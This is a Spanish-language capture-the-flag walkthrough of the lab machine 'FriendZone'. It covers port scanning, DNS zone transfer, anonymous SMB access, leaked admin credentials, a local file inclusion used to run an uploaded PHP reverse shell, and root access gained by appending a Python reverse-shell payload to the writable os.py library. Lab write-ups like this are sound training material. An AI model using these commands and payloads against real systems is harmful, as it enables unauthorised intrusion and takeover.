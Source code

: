Comenzamos con un escaneo de puertos abiertos y servicios mediante la herramienta nmap 

`sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn 10.10.10.123 > escaneo.txt`

![[Pasted image 20240830183914.png]]

Procedemos a realizar un escaneo mas exaustivo de los puertos
`nmap -sC -sV -p 21,22,53,80,139,443,445 10.10.10.123 > escaneoPuertos.txt`
![[Pasted image 20240830185049.png]]
![[Pasted image 20240830185102.png]]

Podemos apreciar que tiene sevicios http y https ademas de servicios como ssh, ftp, servidor de DNS BIND, tenemos varios angulos de ataque, veamos que encontramos en las webs.

En el escaneo de puertos podemos observar el siguiente dominio
![[Pasted image 20240830190029.png]]
Ademas podemos verificar el dominio mediante la herramienta openssl
`openssl s_client -connect 10.10.10.123:443`
![[Pasted image 20240830190257.png]]
![[Pasted image 20240830190316.png]]
![[Pasted image 20240830190330.png]]
El dominio encontrado lo añadiremos a /etc/hosts
![[Pasted image 20240830193208.png]]

Antes de visitar las webs veamos que podemos sacar escaneandolas mediante la herramienta whatweb.

HTTP
`whatweb -v http://friendzone.red/`
![[Pasted image 20240830191306.png]]
![[Pasted image 20240830191318.png]]

HTTPS
`whatweb -v https://friendzone.red/`
![[Pasted image 20240830191336.png]]

Aparentemente los dos escaneos son parecidos, veamos que nos encontramos en las webs

`http://friendzone.red/`
![[Pasted image 20240830191652.png]]

![[Pasted image 20240830191709.png]]

`https://friendzone.red/`
![[Pasted image 20240830191719.png]]
![[Pasted image 20240830191740.png]]

Al encontrar el siguiente comentario paso a ingresar en la dirección https://friendzone.red/js/js/
![[Pasted image 20240830192227.png]]
`ZTl1WXN4cVFrUzE3MjUwMzgyMzZLZldKSjdJMk1I`

Parece ser base64 vamos a decodificarlo 
`echo "ZTl1WXN4cVFrUzE3MjUwMzgyMzZLZldKSjdJMk1I" | base64 -d`
![[Pasted image 20240830193002.png]]

Nos devuelve una cadena que no es de base64, parece ser una distracción. dejemos esta cadena por ahora.

En el primer escaneo del whatweb se puede apreciar otro dominio
![[Pasted image 20240830193302.png]]
Vamos a añadirlo a /etc/hosts
![[Pasted image 20240830193342.png]]
Visitemos el dominio encontrado 
`https://friendzoneportal.red/`
![[Pasted image 20240830193633.png]]
![[Pasted image 20240830193643.png]]

Al no encontrar nada en la web, pero vemos que vamos por buen camino, revisamos los escaneos de nmap y al ver los puertos 443 y 445 decido ver que puedo conseguir listando recursos del servidor SMB mediante smbclient
`smbclient -L 10.10.10.123 -N
![[Pasted image 20240830194133.png]]

Hemos encontrado varios recursos compartidos, algunos de ellos bastante interesantes, 
veamos mediante la herramienta smbmap los privilegios que tenemos sobre los recursos compartidos.
`smbmap -H 10.10.10.123`
![[Pasted image 20240904032210.png]]
Tenemos capacidad de escritura y lectura en development y de lectura en general
Veamos que encontramos en general 
`smbclient //10.10.10.123/general -N`
![[Pasted image 20240904032708.png]]
Encontramos lo que parecen ser unas credenciales, vamos a decargar el txt 
`get creds.txt`
![[Pasted image 20240904032758.png]]
Intentamos acceder con las credenciales mediante ssh pero no son validas, por lo que me hace pensar que hay un portal de autenticacion.

Al revisar el escaneo de nmap, veo que el puerto 53 está abierto por lo que decido intentar un ataque de transferencia de zona (AXFR) para ver que puedo encontrar.
![[Pasted image 20240904033248.png]]
`dig @10.10.10.123 friendzone.red axfr`

![[Pasted image 20240904033512.png]]
Añadimos los dominios encontrados al archivo hosts
![[Pasted image 20240904033745.png]]
Visitamos el dominio administrador
`https://administrator1.friendzone.red/`
![[Pasted image 20240904033913.png]]
Encontramos un login en el que podemos probar las credenciales, antes de eso visitemos el otro dominio interesante, uploads
`https://uploads.friendzone.red/`
![[Pasted image 20240904034407.png]]
Dejemos por ahora este subdominio y centremonos en el inicio de sesion

Iniciamos sesion con las credenciales en el inicio de sesion anteriormente encontrado 

`admin`
`WORKWORKHhallelujah@#`
![[Pasted image 20240904034004.png]]
Visitamos la ruta indicada
![[Pasted image 20240904034537.png]]
Parece ser que tiene algo que ver con la subida de la imagen en el subdominio de uploads, pero parece que nos dan una imagen predeterminada que podemos ver si añadimos a la ruta lo señalado
Añadiendo un ? y image_id=a.jpg&pagename=timestamp podemos ver lo siguiente
![[Pasted image 20240904034729.png]]
Al ver en la ruta `pagename` intento modificarlo para ver si cambia la web, 
`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename`
le quito timestamp 
![[Pasted image 20240904035158.png]]
Desaparece la parte del timestamp como podemos aprecirar en las dos imagenes
intento apuntar a dashboard.php
![[Pasted image 20240904035305.png]]
Al ver que anteriormente estaba sin el php voy a quitarlo
![[Pasted image 20240904035345.png]]
Se crea un bucle del dashboard, por lo que podemos afirmar que la web añade el .php al final
esto me hace pensar en los recursos compartidos encontrados, ya que estaban en /etc/...
por lo que podemos intentar subir un archivo a development y visualizarlo mediante /etc/development

Creamos una prueba para subirla y comprobar que nos muestra este archivo php para poder subirle una reverse shell
![[Pasted image 20240904040822.png]]
Mediante put subimos el archivo 
`put prueba.php`
![[Pasted image 20240904040844.png]]Intentamos visualizarlo 
![[Pasted image 20240904041141.png]]
Genial!!!
Podemos subir una reverse shell para ganar acceso 
![[Pasted image 20240904041316.png]]
Subimos otro archivo con la reverse shell, nos ponemos en esscucha en el puerto correspondiente y ejecutamos la reverse.

`nc -lvnp 4444`
![[Pasted image 20240904041422.png]]
![[Pasted image 20240904041502.png]]
Ejecutamos la reverse y veamos si ganamos el acceso 
![[Pasted image 20240904041552.png]]
Perfecto, ya tenemos el acceso, hacemos el tratamiento de la tty y vamos a por la user flag 
User flag 

![[Pasted image 20240907163816.png]]

Escalada de privilegios

Al no encontrar ningun binario con permisos SUID interesantes ni tampoco podemos lanzar sudo -l intentaremos listar los procesos de la maquina.
Pasamos el script para listar procesos al recurso compartido Development y accedemos a el.
![[Pasted image 20240907163347.png]]

![[Pasted image 20240907163701.png]]
Nos dirigimos a TMP y le damos permisos de ejecución al script 
![[Pasted image 20240907163747.png]]


Ejecutamos el script para ver si hay algún proceso interesante.
![[Pasted image 20240907164459.png]]
Encontramos el siguiente proceso,se esta ejecutando un binario en  python como root, ya que el UID es 0.
Nos dirigimos al directorio donde se encuentra el binario para ver si tenemos permisos de escritura
![[Pasted image 20240908212211.png]]
No tenemos los permisos, veamos que contiene el binario.
![[Pasted image 20240908212352.png]]
Vemos que importa la libreria os, veamos donde se encuentra dicha libreria.
`locate op.py`
![[Pasted image 20240908212841.png]]
Veamos si tienemos capacidad de escritura
![[Pasted image 20240908212927.png]]
Tenemos capacidad de escritura, por lo que podemos añadir una reverse shell y ganar el acceso como root.
`nano /usr/lib/python2.7/os.py`
Al final del archivo añadimos lo siguiente

import socket,subprocess,os  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.10.14.51",4443)) 
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
![[Pasted image 20240908213632.png]]

Nos ponemos en escucha en el puerto seleccionado en la reverse shell

![[Pasted image 20240908213640.png]]

Esperamos a que root ejecute el binario que contiene la libreria os.
10